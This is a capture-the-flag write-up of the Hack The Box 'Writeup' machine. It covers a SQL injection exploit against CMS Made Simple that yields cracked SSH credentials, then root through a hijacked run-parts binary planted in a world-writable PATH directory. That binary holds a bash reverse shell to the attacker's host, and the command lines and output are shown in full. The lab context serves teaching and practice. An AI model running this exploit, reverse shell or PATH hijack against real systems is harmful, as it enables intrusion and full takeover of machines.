







hackthebox Writeup
Released: June 2019 / Pwned: June 26th 2019 - [+] Solved whilst Active

This machine was fun! The web app effectively bans the use of tools, forcing you to gather information yourself, and the root, whilst not easy to spot in the slightest, was in my opinion a very creatively designed challenge. The developer should make more machines :)
Summary
• Check /robots.txt and find an informative directory
• View-source of said informative directory to find a reference to a management system
• searchsploit for exploits and run a sql injection exploit to earn credentials
• ssh in and get user.txt
• Run pspy and wait for users to ssh in to catch some crucial information
• Create malicious version of run-parts command in /usr/local/sbin to earn root whenever a user ssh's into the machine
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.138
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/writeup# mkdir nmap
root@gotham:~/ctf/writeup# nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.138
...
Host is up (0.041s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| 256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_ 256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
A full port scan didn't reveal anything new.
Services running:
• 22/ssh - nothing to do here for the time being
• 80/http - this is the only place to look, so that's where we're heading
Ports & Services
2) 80/http
http://10.10.10.138

This message implies that you shouldn't run any scripts against the site, otherwise you'll risk being IP banned.
Nmap, when scanning port 80, found 1 disallowed entry in /robots.txt:
...
80/tcp open http Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
http://10.10.10.138/robotst.txt

http://10.10.10.138/writeup/ contains some write-ups for previous hackthebox machines.

If you view-source of the http://10.10.10.138/writeup/ page, you'll see a reference to the CMS Made Simple content management system for websites.

2a) searchsploit CMS Made Simple
If you search for exploits for CMS Made Simple, you'll find quite a few.
root@gotham:~/ctf/writeup# searchsploit CMS Made Simple
---------------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Exe | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting | exploits/php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection | exploits/php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnera | exploits/php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities | exploits/php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution | exploits/php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection | exploits/php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Uploa | exploits/php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion | exploits/php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure | exploits/php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scrip | exploits/php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities | exploits/php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery | exploits/php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion | exploits/php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request | exploits/php/webapps/34068.html
CMS Made Simple 2.1.6 - Multiple Vulnerabilities | exploits/php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution | exploits/php/webapps/44192.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution | exploits/php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution | exploits/php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning | exploits/php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection | exploits/php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Uploa | exploits/php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File | exploits/php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitr | exploits/php/webapps/46546.py
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Since I couldn't find a CMS Made Simple version number, by trial and error I discovered that the sql injection vulnerability is the one that we need - https://www.exploit-db.com/exploits/46635.
I tested it first by testing the URL provided in the exploit - /moduleinterface.php?mact=News,m1_,default,0.

You know the SQL injection has worked because we're seeing output from the News table in the web app.
Run the exploit and provide it with the rockyou.txt wordlist to crack the password it finds.
You'll feel like you're part of a scene from the Matrix haha.
(I had to install termcolor for the exploit to work)
root@gotham:~/ctf/writeup/80-http/exploits# cp /usr/share/exploitdb/exploits/php/webapps/46635.py .
root@gotham:~/ctf/writeup/80-http/exploits# mv 46635.py sql_injection-2.2.9below.py
root@gotham:~/ctf/writeup/80-http/exploits# python sql_injection-2.2.9below.py
Traceback (most recent call last):
File "sql_injection-2.2.9below.py", line 12, in <module>
from termcolor import colored
ImportError: No module named termcolor
root@gotham:~/ctf/writeup/80-http/exploits# pip install termcolor
Collecting termcolor
Installing collected packages: termcolor
Successfully installed termcolor-1.1.0
root@gotham:~/ctf/writeup/80-http/exploits# python sql_injection-2.2.9below.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
root@gotham:~/ctf/writeup/80-http/exploits# python sql_injection-2.2.9below.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
Gain Access
3) Log in
Use the credentials discovered by exploit 46635.py to log in via ssh.
jkr / raykayjay9
root@gotham:~/ctf/writeup# ssh jkr@10.10.10.138
...
jkr@10.10.10.138's password: raykayjay9
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 26 05:37:08 2019 from 10.10.14.4
jkr@writeup:~$
And grab user.txt :)
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls
pspy64 user.txt
jkr@writeup:~$ cat user.txt
d4e49...
Priv-Esc
4) pspy
To spot the privilege escalation on this machine you'll need to use pspy.
pspy is a tool that watches Linux system processes. It's become a common part of my priv-esc info-gathering process ever since I was first introduced to the tool by an earlier hackthebox machine.
We're on a 64bit machine, so download pspy64s and serve it to the target system using python.
root@gotham:~/ctf/writeup# wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s
...
root@gotham:~/ctf/writeup# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Retrieve pspy64s from your attacking box, give the binary execute permissions and run it.
You'll see a bunch of processes running.
jkr@writeup:~$ wget http://10.10.14.11:8000/pspy64s
...
jkr@writeup:~$ ls
pspy64s user.txt
jkr@writeup:~$ chmod +x pspy64s
jkr@writeup:~$ ./pspy64s
If you're on a VIP machine you most likely won't see anything of use, so refer to section b) VIP woes.
If you're on free you're at an advantage in this case because there'll be lots of activity on the box. You can skip section b) and move straight to c) sshd.
4a) VIP woes
You're at a huge disadvantage if you're playing as VIP on this box since you'll most likely never see the piece of information that you need. I only managed to figure out how to progress as a result of a hint by user 1NC39T10N on the hackthebox forums. Thanks friend :)

“the VERY last step needed to get user� 1NC39T10N is hinting at is SSH'ing into the box.
SSH into Writeup once and run pspy
root@gotham:~/ctf/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: raykayjay9
....
jkr@writeup:~$ ./pspy64s
....
Now, with pspy running, ssh into the machine again on a separate terminal
root@gotham:~/ctf/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: raykayjay9
....
jkr@writeup:~$
After you've ssh'd in, check pspy and you should now see the information that you need.
5) sshd
pspy64s will reveal a series of odd events that happen when a user ssh's into the box.
jkr@writeup:~$ ./pspy64s
...
2019/06/26 12:11:45 CMD: UID=0 PID=1962 | sshd: [accepted]
2019/06/26 12:11:46 CMD: UID=0 PID=1963 | sshd: [accepted]
2019/06/26 12:11:48 CMD: UID=0 PID=1964 | sshd: jkr [priv]
2019/06/26 12:11:48 CMD: UID=0 PID=1965 | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2019/06/26 12:11:48 CMD: UID=0 PID=1966 | run-parts --lsbsysinit /etc/update-motd.d
2019/06/26 12:11:48 CMD: UID=0 PID=1967 | /bin/sh /etc/update-motd.d/10-uname
2019/06/26 12:11:48 CMD: UID=0 PID=1968 | sshd: jkr [priv]
2019/06/26 12:11:48 CMD: UID=1000 PID=1969 | sshd: jkr@pts/1
For the sake of privilege separation, OpenSSH (sshd) creates 2 processes when an SSH connection starts:
• 1 process retains root privileges (only used to do root things)
• the other process does everything else
Those 2 processes are what we're seeing here (I think)
2019/06/26 12:11:46 CMD: UID=0 PID=1963 | sshd: [accepted]
2019/06/26 12:11:48 CMD: UID=0 PID=1964 | sshd: jkr [priv]
Before the connected user is dropped into a shell, a command runs:
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
Most of this command is irrelevant except for:
• env's -i flag - which means: ignore the existing environment and run commands in a brand new environment
• PATH=<directories> - which sets a new PATH variable and points to a series of directories that (should) contain binaries
• run-parts - the command that's being run
Those directories that the PATH variable is pointing to are suspicious, especially if it's the OpenSSH root privileges process that's running the binaries in those directories.
6) Check if PATH includes world-writable directories
The PATH variable is:
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
If we can write to any of the directories inside of the PATH variable we could potentially get code execution as root.
Have a check to see if any of the directories included in PATH are world-writable.
jkr@writeup:~$ find / -writable -type d 2>/dev/null
/proc/1977/task/1977/fd
/proc/1977/fd
/proc/1977/map_files
/var/local
/var/lib/php/sessions
/var/tmp
/usr/local
/usr/local/bin
/usr/local/include
/usr/local/share
/usr/local/share/sgml
/usr/local/share/sgml/misc
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/entities
/usr/local/share/sgml/dtd
/usr/local/share/sgml/declaration
/usr/local/share/fonts
/usr/local/share/man
/usr/local/share/emacs
/usr/local/share/emacs/site-lisp
/usr/local/share/xml
/usr/local/share/xml/schema
/usr/local/share/xml/misc
/usr/local/share/xml/entities
/usr/local/share/xml/declaration
/usr/local/games
/usr/local/src
/usr/local/etc
/usr/local/lib
/usr/local/lib/python3.5
/usr/local/lib/python3.5/dist-packages
/usr/local/lib/python2.7
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python2.7/site-packages
/usr/local/sbin
/run/user/1000
/run/shm
/run/lock
/home/jkr
/tmp
Two of the directories in the PATH variable are world-writable! We can write to either:
• /usr/local/sbin
• or /usr/local/bin
*Note about the PATH variable
One thing to note about the PATH variable is that the system will search through the directories in PATH in the order that they're listed.
That is, a PATH of PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin will tell the system to:
• first look in /usr/local/sbin
• then /usr/local/bin
• then /usr/sbin
• etc.
7) Create own version of run-parts & get shell
run-parts is the command that's being run by :
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
The run-parts command is currently located in /bin/run-parts
jkr@writeup:~$ which run-parts
/bin/run-parts
The /bin directory is last on the list on the PATH variable, whereas /usr/local/sbin is first
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
This means that if we place our own version of the run-parts command inside /usr/local/sbin, our malicious version will be found first and we'll have code execution as root whenever a user ssh's into the box.
Knowing this, the solution that came to me to get root was to create a reverse shell.
jkr@writeup:~$ which nc
jkr@writeup:~$ which bash
/bin/bash
netcat isn't available so we'll have to use bash instead.
Write the reverse shell into /usr/local/sbin/run-parts and make the shell script executable.
jkr@writeup:~$ nano /usr/local/sbin/run-parts
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.11/9001 0>&1
jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts
jkr@writeup:~$ ls -l /usr/local/sbin/run-parts
-rwxr-xr-x 1 jkr staff 32 Jun 26 12:22 /usr/local/sbin/run-parts
Start a listener on your attacking machine
root@gotham:~/ctf/writeup# nc -lvnp 9001
listening on [any] 9001 ...
And SSH into Writeup on a separate terminal to trigger your malicious run-parts reverse shell to run.
root@gotham:~/ctf/writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: raykayjay9
....
The SSH login should hang and you'll receive a root shell on your listener :)
...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.138] 34278
bash: cannot set terminal process group (2068): Inappropriate ioctl for device
bash: no job control in this shell
root@writeup:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@writeup:/# pwd
pwd
/
root@writeup:/# cat ~/root.txt
cat ~/root.txt
eeba4...